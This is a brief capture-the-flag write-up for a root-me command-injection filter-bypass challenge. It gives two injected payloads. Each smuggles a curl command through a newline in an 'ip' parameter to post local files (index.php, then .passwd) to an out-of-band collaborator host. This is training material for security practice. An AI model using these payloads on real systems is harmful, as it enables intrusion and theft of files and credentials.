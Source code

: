 # Command injection: filter bypass

[root-me challenge: Command injection - Filter bypass](https://www.root-me.org/en/Challenges/Web-Server/Command-injection-Filter-bypass): Find a vulnerability in this service and exploit it. Some protections were added. The flag is in the `index.php` file.

----

Either use Burp Collaborator or one of its alternatives:

```text
ip=127.0.0.1+%0A+curl+--data+"@index.php"+jobc0c724o9snp1oq21rh50ex53wrnfc.oastify.com
```

leading to:

```text
ip=127.0.0.1+%0A+curl+-X+POST+--data+"@.passwd"+jobc0c724o9snp1oq21rh50ex53wrnfc.oastify.com
```




